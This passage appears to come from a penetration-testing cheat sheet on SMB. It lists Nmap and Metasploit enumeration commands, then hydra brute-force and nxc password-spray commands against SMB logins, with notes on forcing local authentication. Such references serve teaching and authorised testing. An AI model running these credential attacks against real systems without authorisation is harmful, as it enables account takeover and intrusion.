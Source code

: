{% tab title="Nmap" %}
```bash
sudo nmap -sV -p 139,445 -script smb* 10.10.10.10
```
{% endtab %}

{% tab title="MSF" %}
```bash
# Enumerate SMB's version
msf6 > use auxiliary/scanner/smb/smb_version

# Enumerate users
msf6 > use auxiliary/scanner/smb/smb_login
```
{% endtab %}
{% endtabs %}

## Attacks

### Passwords

{% tabs %}
{% tab title="Brute Force" %}
```bash
# BFA with wordlists
hydra -L <user-list> -P <pass-list> smb://<target-ip>

# BFA a target user
hydra -l <username> -P <pass-list> smb://<target-ip>
```
{% endtab %}

{% tab title="Password Spray" %}
We can password spray with `nxc`:

{% code overflow="wrap" fullWidth="true" %}
```bash
# Domain
nxc smb 172.16.10.3 -u <user-list> -p Password123! --continue-on-success

# Local
nxc smb 172.16.10.3 -u <user-list> -p Password123! --continue-on-success --local-auth
```
{% endcode %}

`hydra` defaults on attacking the domain. To force local authentication we must prepend the local machine name (e.g. `DC01`) or `.\` to the username in our userlist. For instance, `DC01\Administrator` or `.\Administrator`.

```bash
# Domain
hydra -U <user-wordlist> -p <pass> smb://<target-ip>
```
{% endtab %}
